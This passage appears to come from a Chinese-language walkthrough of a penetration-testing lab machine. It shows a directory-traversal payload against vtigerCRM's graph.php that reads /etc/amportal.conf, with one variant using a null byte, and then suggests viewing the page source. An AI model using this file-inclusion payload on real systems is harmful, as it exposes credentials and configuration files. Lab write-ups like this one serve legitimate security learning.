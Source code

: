 让我们导航到

```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

![Screenshot-2019-09-03-at-00.01.36](img/7aaf8abeb46669700355f3679640404e.png)

https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf&module=Accounts&action

如果你不能阅读任何东西，你可以通过检查源文件来美化文件

![Screenshot-2019-09-03-at-00.07.17](img/c670b5bf7a3f6cf20fd80d1d12d4ff8a.png)
